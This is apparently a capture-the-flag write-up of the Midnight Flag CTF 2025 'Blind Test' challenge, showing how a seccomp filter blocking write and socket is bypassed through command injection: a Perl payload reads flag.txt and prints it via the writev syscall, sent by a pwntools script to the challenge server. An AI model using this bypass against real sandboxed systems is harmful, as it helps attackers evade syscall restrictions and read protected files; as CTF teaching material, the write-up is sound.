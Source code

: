 ```yaml
---
title: Midnight Flag CTF 2025 - Blind Test (pwn)
date: 2025-04-16 11:10:48 +0200
categories: [MidnightFlagCTF2025, Pwn]
tags: [pwn]
author: lenoctambule
description:  Challenge that makes us bypass a seccomp profile that prohibits write syscalls 
---
```


## Information gathering

This challenge is a binary exploitation challenge. We have full access of the source code, as well as a local testing environment.

The code is straight forward, it first sets up a seccomp that prohibits the use of syscalls `write` and `socket` and allows everything else.

```c
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(socket), 0);
```

We can also extract the seccomp using [`seccomp-tools`](https://github.com/david942j/seccomp-tools/) which gives us :

```text
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0008
 0006: 0x15 0x01 0x00 0x00000029  if (A == socket) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```

Then it takes a 3000 characters long input and calls `system` function with it.

```c
    while (1) {
        if (fgets(command, sizeof(command), stdin) == NULL) {
            break;
        }
        system(command);
    }
```

## Exploitation

As expected, whenever we send a command, we get nothing back. Looking at the different avalaible syscalls, there are a few that could performs the same task as `write` such as :
- `pwrite64` - write to a file descriptor at a given offset
- `writev` - write data into multiple buffers

But `writev` seems a lot easier because `pwrite64` can't write to stdout (which is what we want).

So our plan is now clear :
- open the flag and get the file descriptor
- read the flag
- use `writev` to execute it

However, the execution is not. We need something that allows to do all of the above and that is already installed on the debian container. And after spending a bit of time looking around, I found that perl is installed and perl does allows us to make syscalls using well ... `syscall`. As I'm not good in perl and time is of essence, I asked ChatGPT to do it for me and here's the payload that I got :

```pl
open my $fh, "<", "./flag.txt";
my $file_content = do {local $/; <$fh>};
my @buffers = ($file_content, "\n");
my $iovec = pack("L!L!L!L!L!L!",
    map { 
        my $str = $_;
        my $ptr = unpack("L!", pack("P", $str));
        my $len = length($str);
        ($ptr, $len)
    } @buffers
);
my $fd = fileno(STDOUT);
my $ret = syscall(20, $fd, $iovec, scalar(@buffers));
```

And the python script to send it automatically while getting rid of line returns :

```py
from pwn import *

r = remote("xxxx.midnightflag.fr", xxxxx)
context.log_level = 'INFO'
with open('payload.pl', 'r') as f :
    payload = f.read().strip().replace('\n', '')
    cmd = f"perl -e '{payload}'"
    r.sendline(cmd)
print(r.recv(timeout=1))
```

And voilà ! we run it and get the flag,
```text
$ py solve.py 
[+] Opening connection to localhost on port 4444: Done
/home/ravaka/ctf/midnight-2025/pwn/blindtest/solve.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(cmd)
b'MCTF{kIll3d_3xFi}\n\n'
[*] Closed connection to localhost port 4444
```